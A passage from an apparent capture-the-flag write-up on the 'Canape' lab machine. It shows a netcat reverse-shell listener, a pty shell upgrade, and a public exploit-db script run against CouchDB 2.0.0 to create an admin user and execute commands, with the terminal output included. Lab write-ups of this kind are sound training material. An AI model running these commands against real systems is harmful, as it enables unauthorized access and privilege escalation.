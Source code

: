 2. Listen on the local computer with ``nc -lnvp {port}``
3. Execute the reverse shell we uploaded with the RCE.

```py
cmd = "cd /tmp; python shell.py;"
```

*Reverse shell spawned!*

![Img](images/rev_shell.png "Img")

Then, as we know python is installed, we can upgrade to a tty shell:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Getting to user

The first thing that came to my mind was the CouchDB used by the web app. Maybe it had on it some creds?

I tried to get some data from it but always failed because I didn't have an authorized user:

```console
www-data@canape:/tmp$ curl -s http://localhost:5984/_users/_all_docs
curl -s http://localhost:5984/_users/_all_docs
{"error":"unauthorized","reason":"You are not a server admin."}
```

So I searched on the internet for ways to exploit the service, and found two python scripts that let me create an admin user. I tried with [this](https://www.exploit-db.com/exploits/44913/) one and the following command:

```console
www-data@canape:/tmp$ python ex.py --priv -u root3u -p password -c whoami http://127.0.0.1:5984
<n ex.py --priv -u root3u -p password -c whoami http://127.0.0.1:5984        
[*] Detected CouchDB Version 2.0.0
[+] User root3u with password password successfully created.
[+] Created payload at: http://127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers/cmd
[+] Command executed: whoami
[*] Cleaning up.
```

As it said that I needed to provide a command, I used ``whoami``, which had a simple output. However, when I visied the url I still got unautorized access. After a few google searches, I learnt I needed to pass the user and password along with the URL, and this time I was authenticated. The only problem was the file didn't exist.

```console
www-data@canape:/tmp$ curl http://127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers/cmd
<http://127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers/cmd     
{"error":"unauthorized","reason":"You are not a server admin."}
www-data@canape:/tmp$ http://root3u:password@127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers/cmd
<1:5984/_node/couchdb@localhost/_config/query_servers/cmd                    
bash: http://root3u:password@127.0.0.1:5984/_node/couchdb@localhost/_config/query_servers/cmd: No such file or directory
```
